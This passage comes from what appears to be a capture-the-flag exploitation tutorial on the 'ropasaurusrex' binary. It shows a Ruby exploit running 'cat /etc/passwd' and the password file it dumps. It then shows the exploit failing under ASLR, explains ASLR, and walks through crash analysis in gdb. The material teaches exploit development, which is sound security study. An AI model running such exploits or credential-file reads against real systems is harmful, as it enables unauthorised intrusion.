 And when we run it, we get the expected result:

<pre>
<span class="lnr">1 </span><span class="Identifier">$ ruby sploit.rb &quot;cat /etc/passwd&quot;</span>
<span class="lnr">2 </span><span class="Identifier">root</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Comment">root</span><span class="Normal">:</span><span class="Type">/root</span><span class="Normal">:</span><span class="Statement">/bin/bash</span>
<span class="lnr">3 </span><span class="Identifier">daemon</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Comment">daemon</span><span class="Normal">:</span><span class="Type">/usr/sbin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">4 </span><span class="Identifier">bin</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Comment">bin</span><span class="Normal">:</span><span class="Type">/bin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">5 </span><span class="Identifier">...</span>
</pre>

And if you look at the <a href="https://en.wikipedia.org/wiki/Core_dump">core dump</a>, you'll see it's crashing at <tt>0x44444444</tt> as expected.

Done, right?

WRONG!

This exploit worked perfectly against my test machine, but when ASLR is enabled, it failed:

<pre>
<span class="lnr">1 </span>$ sudo sysctl <span class="Special">-w</span> <span class="Identifier">kernel.randomize_va_space</span>=<span class="Constant">1</span>
<span class="lnr">2 </span>kernel.randomize_va_space <span class="Statement">=</span> <span class="Constant">1</span>
<span class="lnr">3 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">&quot;</span><span class="Constant">cat /etc/passwd</span><span class="Statement">&quot;</span>
</pre>

This is where it starts to get a little more complicated. Let's go!

<h2>What is ASLR?</h2>
ASLR&mdash;or address space layout randomization&mdash;is a defense implemented on all modern systems (except for FreeBSD) that randomizes the address that libraries are loaded at. As an example, let's run ropasaurusrex twice and get the address of <tt>system()</tt>:

<pre>
<span class="lnr"> 1 </span>ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">'</span><span class="Constant">printf &quot;A&quot;x1000</span><span class="Statement">'</span> | ./ropasaurusrex
<span class="lnr"> 2 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr"> 3 </span>ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr"> 4 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr"> 5 </span><span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr"> 6 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr"> 7 </span>0xb766e450 <span class="Statement">&lt;</span>system<span class="Statement">&gt;</span>:    0x890cec83
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span>ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">'</span><span class="Constant">printf &quot;A&quot;x1000</span><span class="Statement">'</span> | ./ropasaurusrex
<span class="lnr">10 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
